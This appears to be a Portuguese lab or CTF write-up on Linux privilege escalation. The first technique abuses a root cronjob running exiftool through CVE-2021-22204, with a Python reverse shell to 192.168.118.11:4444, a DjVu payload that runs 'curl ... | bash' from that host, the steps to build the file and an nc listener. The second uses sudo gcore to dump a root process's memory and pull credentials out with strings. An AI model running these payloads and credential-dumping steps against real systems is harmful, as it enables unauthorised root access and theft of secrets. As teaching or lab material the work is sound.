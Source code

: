 ## Privilege Escalation

### Cronjob Enumeration

Identificamos uma entrada no arquivo `/etc/crontab` que executa o script `/opt/image-exif.sh` como root a cada minuto.

```
# Exibindo o conteúdo de /etc/crontab
cat /etc/crontab
```

**Cronjob Identificado**:
```
cat /etc/crontab
# /etc/crontab: system-wide crontab
...
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/image-exif.sh
```

### Script Analysis (`/opt/image-exif.sh`)

O script realiza processamento de metadados em imagens JPG usando `exiftool` e salva os dados processados em `/opt/metadata`.

```
# Exibindo o conteúdo de /opt/image-exif.sh
cat /opt/image-exif.sh
```

**Conteúdo do Script**:
```
#!/bin/bash
IMAGES='/var/www/html/subrion/uploads'
META='/opt/metadata'
FILE=$(openssl rand -hex 5)
LOGFILE="$META/$FILE"
ls $IMAGES | grep "jpg" | while read filename; do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done
```

**Análise**: O script executa `exiftool` em cada arquivo JPG no diretório de uploads, com potencial de exploração caso o `exiftool` seja vulnerável.

### Exploração de Arbitrary Code Execution com ExifTool (CVE-2021-22204)

Descoberta de vulnerabilidade de execução de código remoto (RCE) no ExifTool, documentada em CVE-2021-22204. Utilizamos o `djvumake` para criar um arquivo malicioso no formato DjVu.

1. **Instalar Dependência**: `djvulibre-bin` para gerar o arquivo DjVu.
   ```
   sudo apt-get update && sudo apt-get install -y djvulibre-bin
   ```

2. **Criar Arquivo de Payload**:
   - `shell.sh`: Script de reverse shell em Python.
   - `exploit`: Exploit para chamar `shell.sh` remotamente.
   
   ```
   # shell.sh (conteúdo do reverse shell)
   cat << 'EOF' > shell.sh
   #!/bin/bash
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.118.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   EOF
   ```

   ```
   # exploit (comando para executar o reverse shell via curl)
   cat << 'EOF' > exploit
   (metadata "\c${system ('curl http://192.168.118.11/shell.sh | bash')};")
   EOF
   ```

3. **Gerar Arquivo DjVu Malicioso**:
   ```
   djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit
   mv exploit.djvu exploit.jpg
   ```

4. **Transferir o Arquivo para o Servidor**:
   ```
   wget http://192.168.118.11/exploit.jpg -O /var/www/html/subrion/uploads/exploit.jpg
   ```

5. **Ouvir Conexão Reversa**:
   Após um minuto, o cronjob executará o payload, e a shell reversa será conectada à porta 4444.

   ```
   nc -lvnp 4444
   ```

**Resultado**:
```
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## Sudo gcore

### Passo 1: Verificar Permissões sudo
Comece verificando se o usuário atual possui permissões para executar comandos com `sudo`.

```
sudo -l
```

> Procure por comandos que podem ser executados com privilégios elevados, especialmente aqueles que permitem gerar dumps de memória, como `/usr/bin/gcore`.

### Passo 2: Identificar Processos de Interesse
Liste todos os processos em execução para localizar algum que contenha informações sensíveis, como credenciais ou configurações confidenciais.

```
ps auxwww
```

> Identifique o PID de um processo interessante, como `/usr/bin/password-store`, que está sendo executado como root.


### Passo 3: Gerar Dump de Memória com gcore
Use `gcore` para criar um core dump do processo alvo. Substitua `<PID>` pelo PID do processo de interesse.

```
sudo /usr/bin/gcore <PID>
```

> Exemplo: `sudo /usr/bin/gcore 492`

> Isso criará um arquivo `core.<PID>` no diretório atual, contendo uma cópia da memória do processo.

### Passo 4: Analisar o Dump de Memória com strings
Use o comando `strings` para analisar o core dump em busca de informações em texto claro (cleartext), como credenciais.

```
strings core.<PID>
```

> Exemplo: `strings core.492`

> Procure por palavras como "password", "user", ou nomes de aplicativos que possam conter credenciais.

### Passo 5: Usar Credenciais para Escalonar Privilégios
Se encontrar credenciais para o usuário root, utilize-as para escalonar privilégios.

```
su root
```

> Insira a senha encontrada no core dump para obter acesso root.



### Resumo do Processo

1. **Verificar permissões sudo**: `sudo -l`
2. **Identificar processos de interesse**: `ps auxwww`
3. **Gerar dump com gcore**: `sudo /usr/bin/gcore <PID>`
4. **Analisar o dump com strings**: `strings core.<PID>`
5. **Escalonar privilégios**: `su root`

---

